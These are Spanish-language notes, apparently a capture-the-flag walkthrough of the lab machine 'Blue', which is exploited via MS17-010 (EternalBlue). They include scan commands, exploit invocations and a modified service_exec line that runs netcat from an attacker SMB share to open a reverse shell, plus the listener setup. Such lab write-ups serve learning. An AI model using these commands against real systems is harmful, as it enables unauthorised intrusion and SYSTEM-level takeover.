 ## Summary

Tags: 
Y
- IP -> 10.10.10.40
- Ports -> TCP (135, 139, 445, 49152 - 57), UDP (idk)
- OS ->  
- Services & Applications
    -  -> 
    -  -> 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **crackmapexec smb {ip_targeted}** Para listar recursos compartidos de Windows. Enotramos un Windows 7 x64
- Comando -> **nmap --scripts “vuln and safe” -p< PORT> < TARGET IP> -oN < FILENAME>** Lanzara vulnerabilidades que no sean muy intrusivas de tipo seguro, va a mandar scripts al puerto 445 para saber si tiene alguna vulnerabilidad que podamos explotar y encontramos el ms17-010 Ethernal Blue

Descargamos el exploit del Ethernalblue de la siguiente pagina
- **python2 checker.py 10.10.10.40**
	- Si el Checker no nos agarra, revisar que tenga guest en username
Aqui debemos de ver que alguno de los resultados nos ponga OK
- **python2 zzz.exploit.py 10.10.10.40 browser**
Con el zzz dentro del archivo podremos colocar un comando, el cual sera el siguiente:
- service_exec(conn, r'cmd /c  **\\\\10.10.14.17\\SmbFolder\\nc.exe -e cmd 10.10.14.17 443**') 
Haremos que mediante un recurso compartido, ejecute el netcat y nos otorgue una consola interactiva 

Antes debemos de decargarnos el binario para Windows del netcat, en este caso de x64
- **unzip netcat.zip -d netcat** Para que lo descargado se guarde en una carpeta llamada 'netcat'
- **cp netcat/nc64.exe nc.exe** Nos copiamos el netcat de x64 al directorio actual de trabajo pero como netcat 

- **rlwrap nc -nlvp 443** Nos ponemos en escucha 
- **impacket-smbserver smbFolder $(pwd) -smb2support** Creamos nuestro recurso compartido en donde esta el netcat que vamos a compartit y le damos soporte por si las dudas a la version 2 de Windows

Ejecutamos el comando anterior y obtenemos la consola como nt authority/system
